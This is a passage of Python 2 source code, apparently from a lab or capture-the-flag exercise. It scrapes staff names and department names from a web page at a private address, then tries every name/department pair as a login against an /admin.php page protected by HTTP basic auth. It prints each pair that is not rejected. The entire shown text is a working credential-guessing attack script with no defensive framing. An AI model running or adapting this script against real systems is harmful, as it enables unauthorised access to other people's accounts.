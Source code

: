```python
    return output

def findDepts(response):
    parser = bs4(response, 'html.parser')
    names = parser.find_all('td', id='department')
    output = []
    for name in names:
        output.append(name.text)
    return output

def getAuthorized(url, username, password):
    r = requests.get(url, auth=(username, password))
    if str(r.status_code) != '401':
        print "\n[!] Username: " + username + " Password: " + password + " Code: " + str(r.status_code) + "\n"

page = downloadPage("http://172.16.120.120")

names = findNames(page)
uniqNames = sorted(set(names))

depts = findDepts(page)
uniqDepts = sorted(set(depts))

print "[+] Working... "
for name in uniqNames:
    for dept in uniqDepts:
        getAuthorized("http://172.16.120.120/admin.php", name, dept)
```
